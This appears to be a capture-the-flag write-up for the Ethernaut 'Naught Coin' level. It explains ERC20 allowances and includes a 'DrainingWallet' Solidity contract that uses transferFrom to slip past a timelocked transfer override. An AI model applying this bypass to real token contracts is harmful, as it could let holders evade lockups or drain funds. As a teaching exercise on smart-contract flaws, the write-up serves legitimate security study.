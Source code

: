 ## 1) Catch
Think about the ways we have to transfer, send, receive and manage ERC20 compliant tokens. Understanding how a DEX contract manages deposits, transfers and withdrawals may help to solve this level.


## 2) Solution
It is important to understand what is overriding this token contract and how this works. The ```Naught Token``` inherits every compliant functions of a standard ERC20 token. If we dig into the standard we see several methods that give us liberty to manage our assets. 

We will rely on the ```allowance``` theory in here. 

**WTF is this Alonso, Alo Wan, Obi Wan, Allowance guy anyways?**
To answer this we will go to the roots of this. Really. We are programming and studying smart **contracts**. They are a resemblance to old, rusty and traditional law contracts where each function and statement can be interpreted as clauses and rights transfers. While signing a contract you are giving compliance on what it is said in there and in such way you should be awaiting for something to happen in order to execute what the contract says.

For example, you sign a leasing contract that has a clause that allows you to buy or renew the leased good once the period is finished. This has an implicate logic. Once something happens, you acquire (or loose) a right to do something.

What has this to do with the Obi Wan guy? The allowance concept of an ERC20 compliant contract is a way to give someone else the right to use a specific amount of tokens you own as they wish. For example, you allow me with an amount of 10ETH. First you sign that allowance increase (check the term *sign* as in regular contracts). Then, I will have the right to use your 10ETH on your behalf. If I decide to transfer them, those tokens go out of **your** wallet. In other words, the allowance can be interpreted as the right to do something on someones behalf.

This level relies on this logic. The method that is locked to perform a transfer for 10 years is the overridden ```transfer``` method with the ```lockTokens``` modifier. So a workaround here is to extract our tokens by giving someone else the right to transfer those tokens. The catch in here is that the transfer will be performed using the ```transferFrom``` method instead of the modified ```transfer``` one.

To do so, we need to create a contract that drains our tokens and then allow that contract with the desired amount.

This allowance increment can be easily done with scripts or by calling directly the function from the ERC20 inherited functions of the contract.

First lets deploy the ```DrainingWallet``` contract.


    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

    contract DrainingWallet{
        ERC20 naughtCoin;
        constructor(address _tokenAddress){
            naughtCoin = ERC20(_tokenAddress);
        }
        // The holder needs to increase the allowance of _amount of tokens to this contract prior calling drain.
        function drain(uint _amount) public {
            naughtCoin.transferFrom(msg.sender, address(this), _amount);
        }
    }


You can first create a level instance from the Ethernaut site and then use the instance address while deploying this on Remix.


    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

    contract NaughtCoin is ERC20 {
        // string public constant name = 'NaughtCoin';
        // string public constant symbol = '0x0';
        // uint public constant decimals = 18;
        uint public timeLock = block.timestamp + 10 * 365 days;
        uint256 public INITIAL_SUPPLY;
        address public player;

        constructor(address _player) 
        ERC20('NaughtCoin', '0x0')
        {
            player = _player;
            INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
            // _totalSupply = INITIAL_SUPPLY;
            // _balances[player] = INITIAL_SUPPLY;
            _mint(player, INITIAL_SUPPLY);
            emit Transfer(address(0), player, INITIAL_SUPPLY);
        }
    
        function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
            super.transfer(_to, _value);
        }

    // Prevent the initial owner from transferring tokens until the timelock has passed
        modifier lockTokens() {
            if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
            } else {
            _;
            }
        } 
    } 


This last contract inherits the ```increaseAllowance``` function of the ERC20 contract. By calling it like so:

    increaseAllowance(DrainingWalletAddress, playerTokenBalance);

With the first parameter being the address of the first deployed contract and the second one the balance of the player (```1000000000000000000000000```).

Once we have increased the allowance to the drainer contract, we simply call ```drain``` and the tokens will be gone!

Congratulations, thanks to ObiWan-ce you were able to crack this!